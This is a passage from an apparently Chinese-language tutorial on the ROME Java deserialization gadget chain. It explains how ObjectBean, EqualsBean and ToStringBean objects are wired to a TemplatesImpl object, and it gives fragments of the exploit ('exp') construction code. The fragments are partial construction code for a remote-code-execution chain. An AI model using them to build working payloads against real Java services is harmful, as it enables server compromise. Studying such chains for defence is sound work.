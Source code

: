 **问题二**：这里的EqualsBean对象的\_obj是ToStringBean对象，如何得来？  
通过上面的分析可知，EqualsBean的\_obj必须是ToStringBean对象，这样才能EqualsBean的beanHashCode方法中调用到ToStringBean的toString方法，因此EqualsBean的\_beanClass方法必须是ToStringBean类

因此，根据ObjectBean和EqualsBean的构造方法，可以得如下exp的构造：

```plain
// 创建ObjectBean对象
ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
setFiled(objectBean,"_toStringBean", null);
setFiled(objectBean, "_cloneableBean", null);
```

**问题三**：这里的ToStringBean对象的\_obj是TemplatesImpl对象，如何得来？  
在ToStringBean的toString方法中，大致意思就是传递一个类，获取该类的set或者get方法，并且能够使用invoke调用，这里就可以利用TemplatesImpl链  
在如下代码中

```plain
Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
```

要执行一个对象的方法，invoke第一个参数就是该对象，因此这里是构造的ToStringBean对象的\_obj属性是TemplatesImpl对象

而\_beanClass的由来需要看这一句

```plain
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
```

getPropertyDescriptors方法的大致作用是获取一个类的get或set方法，这里需要调用TemplatesImpl的getOutputProperties方法，就必须传入对应的类，这里选择传入接口Templates

查看ToStringBean的构造方法

```plain
protected ToStringBean(Class beanClass) {
    this._beanClass = beanClass;
    this._obj = this;
}

public ToStringBean(Class beanClass, Object obj) {
    this._beanClass = beanClass;
    this._obj = obj;
}
```

故有如下exp构造

```plain
// 创建ToStringBean对象
ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
```

**注**：当然这里也可以不需要在外面套一层ObjectBean，直接将构造的EqualsBean放入HashMap中也可以

## 5\. HashTable利用链

### 利用链

